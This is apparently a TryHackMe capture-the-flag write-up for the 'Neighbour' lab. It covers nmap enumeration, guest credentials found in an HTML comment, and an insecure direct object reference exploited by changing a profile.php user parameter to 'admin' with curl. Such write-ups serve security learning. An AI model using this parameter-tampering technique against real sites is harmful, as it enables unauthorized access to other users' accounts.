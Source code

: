 ```yaml
---
title: "Neighbour"
author: "Divyanshu Sharma"
date: 2022-11-14
permalink: /tryhackme/neighbour
tags: tryhackme
---
```

# IP
10.10.100.159

# Enumeration

## Nmap
Found two ports running on the machine.
```console
❯ nmap -sC -sV --min-rate=700 10.10.100.159 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-12 10:57 IST
Nmap scan report for 10.10.100.159
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 16:95:5e:6c:b5:20:ea:7f:48:05:66:7f:e2:87:dd:2d (RSA)
|   256 32:c0:4b:50:42:07:42:44:75:cb:73:0a:fe:45:af:d0 (ECDSA)
|_  256 17:6a:e9:69:e7:70:c7:7d:91:fc:7f:33:6d:7a:75:91 (ED25519)
80/tcp open  http    Apache httpd 2.4.53 ((Debian))
|_http-server-header: Apache/2.4.53 (Debian)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.92 seconds
```

## Web
- On going two website it prompts with a login screen.
- It says that if we don't have an account we can use a guest account.

```html
<p>Don't have an account? Use the guest account! (<code>Ctrl+U</code>)</p>
<!-- use guest:guest credentials until registration is fixed -->
```

# Exploitaion
## Insecure Direct Object Reference (IDOR)
- When logged in with guest credential it redirects us to `http://10.10.100.159/profile.php?user=guest`
- Change user parameter to admin and voila! got the flag

```console
❯ curl  http://10.10.100.159/profile.php\?user\=admin   --cookie PHPSESSID=72a7718d9612f8f6eabea832164def20

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Welcome</title>
    <!-- admin account could be vulnerable, need to update -->
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; text-align: center; }
    </style>
</head>
<body>
    <h1 class="my-5">Hi, <b>admin</b>. Welcome to your site. The flag is: flag{**REDACTED**}</h1>
    <p>
        <a href="logout.php" class="btn btn-danger ml-3">Sign Out of Your Account</a>
    </p>
</body>
</html>
```
- The bug seems to be related to PHPSESSID cookie, the PHP in backend authenticates PHPSESSID, but does not authenticate it with the username 
